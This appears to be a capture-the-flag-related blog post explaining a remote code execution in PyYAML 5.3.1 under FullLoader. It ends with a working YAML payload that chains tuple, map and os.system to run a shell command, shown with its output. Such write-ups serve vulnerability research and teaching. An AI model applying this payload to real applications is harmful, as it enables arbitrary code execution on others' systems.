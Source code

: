 ```yaml
---
layout: post
title:  "Remote Code Execution on PyYAML Version<=5.3.1."
date:   2020-07-20 17:07:00
tags:   [RCE, Python]
---
```


### Description
This zero-day vulnerability was published in UIUCTF 2020 under the name Deserializeme(Couldn't solve though😢).
<br/>
<br/>


### Contents
When using yaml.load function, if Loader is not defined, it basically operates as `FullLoader`. `!!python/object/apply` tag can trigger function when it deserializing like pickle vulnerability. But this tag is only allowed when the Loader is `UnsafeLoader`. Also `CVE-2020-1747` was patched beloing the code on PyYAML 5.3.1. 
```python
# constructor.py
class FullConstructor(SafeConstructor):
    # 'extend' is blacklisted because it is used by
    # construct_python_object_apply to add `listitems` to a newly generate
    # python instance
    def get_state_keys_blacklist(self):
        return ['^extend$', '^__.*__$'] # Regexp is added, can't use extend keywords with listitems.

    def get_state_keys_blacklist_regexp(self):
        if not hasattr(self, 'state_keys_blacklist_regexp'):
            self.state_keys_blacklist_regexp = re.compile('(' + '|'.join(self.get_state_keys_blacklist()) + ')')
        return self.state_keys_blacklist_regexp
...
```
<br/>
<br/>


These are tags PyYAML supported.
```
### YAML tags and Python types
The following table describes how nodes with different tags are converted to Python objects.

YAML tag	Python type
Standard YAML tags	
!!null	None
!!bool	bool
!!int	int or long (int in Python 3)
!!float	float
!!binary	str (bytes in Python 3)
!!timestamp	datetime.datetime
!!omap, !!pairs	list of pairs
!!set	set
!!str	str or unicode (str in Python 3)
!!seq	list
!!map	dict
Python-specific tags	
!!python/none	None
!!python/bool	bool
!!python/bytes	(bytes in Python 3)
!!python/str	str (str in Python 3)
!!python/unicode	unicode (str in Python 3)
!!python/int	int
!!python/long	long (int in Python 3)
!!python/float	float
!!python/complex	complex
!!python/list	list
!!python/tuple	tuple
!!python/dict	dict
Complex Python tags	
!!python/name:module.name	module.name
!!python/module:package.module	package.module
!!python/object:module.cls	module.cls instance
!!python/object/new:module.cls	module.cls instance
!!python/object/apply:module.f	value of f(...)
```
<br/>
<br/>


`!!python/object/new` and `!!python/name` tags are allowed in `FullLoader`. Also `!!python/name` tag can load python modules and map object be triggered when converting `list` or `tuple` in python.
```python
>>> yaml.load('!!python/object/new:tuple [[1,2,3]]')
(1, 2, 3)

>>> yaml.load('!!python/name:os.system')
<built-in function system>

>>> list(map(os.system, ['id']))
uid=1000(03sunf) gid=1000(groot) groups=1000(groot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
[0]
>>> tuple(map(os.system, ['id']))
uid=1000(03sunf) gid=1000(groot) groups=1000(groot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
(0,)
```
<br/>
<br/>


So triggering functions is possible in `FullLoader`.
```python
!!python/object/new:tuple [ !!python/object/new:map [ !!python/name:os.system , [ "id" ] ] ]
uid=1000(03sunf) gid=1000(groot) groups=1000(groot),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
